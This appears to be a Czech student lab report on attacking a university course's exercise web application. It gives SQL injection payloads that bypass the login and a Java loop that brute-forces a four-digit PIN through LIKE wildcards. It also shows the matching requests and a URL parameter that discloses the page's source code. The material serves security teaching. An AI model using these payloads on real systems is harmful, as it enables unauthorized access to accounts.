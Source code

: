 # REPORT - moravja8


## Prolomení login screen a zijštění username
**POST body:** "username= ' OR 1 = 1 AND username like '%moravja8%' OR '&password="
**Response:** <br />
    ```<pre><code><h2>Welcome <font color="green">rux6j_moravja8</font>, enter your four digit PIN number</h2><form id="pin" action="index.php" method="post"><input type="text" maxlength="4" name="pin" placeholder="_ _ _ _" required ><input type="submit" value="Verify"></form><a id="logout" href="index.php?logout">Logout</a></code></pre>```

## Zjištění pinu
**Postup:** pomocí wildcardů v sql injection lze pin bruteforcovat.  
**Kód:**

        for (int i = 0; i < 4; i++) {
            for (int j = 0; j < 10; j++) {
                String pin = String.valueOf(j);
                switch (i){
                    case 0: 
                        pin = pin + "___";
                        break;
                    case 1:
                        pin = "_" + pin + "__";
                        break;
                    case 2:
                        pin = "__" + pin + "_";
                        break;
                    case 3:
                        pin = "___" + pin;
                        break;
                    default:
                        throw new Exception("Bad state");    
                }
                main.sendPost(APP_URL, "username= ' OR 1 = 1 AND username = 'rux6j_moravja8' AND pin like '" + pin + "' OR '&password=");
            }
        }
**Response** <br />
Pozitivní odpovědi ve formátu "Welcome rux6j_moravja8, enter your four digit PIN number" přišly na následující requesty:

Sending 'POST' request to URL : https://kbe.felk.cvut.cz/ <br />
Post parameters : username= ' OR 1 = 1 AND username = 'rux6j_moravja8' AND pin like '5___' OR '&password=<br />
Post parameters : username= ' OR 1 = 1 AND username = 'rux6j_moravja8' AND pin like '_5\__' OR '&password=<br />
Post parameters : username= ' OR 1 = 1 AND username = 'rux6j_moravja8' AND pin like '__1\_' OR '&password=<br />
Post parameters : username= ' OR 1 = 1 AND username = 'rux6j_moravja8' AND pin like '___7' OR '&password=<br />

**Ověření pinu:**<br />
main.sendPost(APP_URL, "username= ' OR 1 = 1 AND username = 'rux6j_moravja8' AND pin like '5517' OR '&password=");<br />

## Zobrazení zdrojového kódu
Po přihlášení lze zobrazit zdrojový kód na adrese https://kbe.felk.cvut.cz/index.php?open=index.php <br />


